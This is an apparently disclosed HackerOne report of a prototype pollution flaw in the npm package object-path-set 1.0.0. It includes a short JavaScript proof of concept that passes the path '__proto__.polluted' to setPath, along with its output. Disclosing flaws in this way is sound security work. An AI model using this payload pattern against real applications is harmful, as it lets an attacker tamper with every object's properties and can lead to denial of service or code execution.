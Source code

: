 # [object-path-set] Prototype pollution

## Report Details
- **Report ID**: 878332
- **URL**: https://hackerone.com/reports/878332
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-19T19:17:47.109Z
- **Disclosed**: 2020-08-20T09:08:31.858Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `prototype pollution` vulnerability in `object-path-set` module.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** `object-path-set`
**version:** `1.0.0`
**npm page:** `https://www.npmjs.com/package/object-path-set`

## Module Description

set values in javascript objects by specifying a path.
if the path doesn't exist yet, it will be created.

## Module Stats

[81] weekly downloads

# Vulnerability

## Vulnerability Description

The `setPath` function can be used to add/modify properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:
- install `object-path-set` module:
    - `npm i object-path-set`

Set the `__proto__.polluted` property of an object:
```javascript

const setPath = require('object-path-set');
const obj = {};
console.log("Before : " + obj.polluted);
setPath({}, '__proto__.polluted', 'yes');
console.log("After : " + obj.polluted);
```
Output:
```console

Before : undefined
After : yes
```
{F835049}

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.5

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

The impact depends on the application. In some cases it is possible to achieve Denial of service (DoS), Remote Code Execution, Property Injection.

## Attachments
- object-path-set_poc.mov
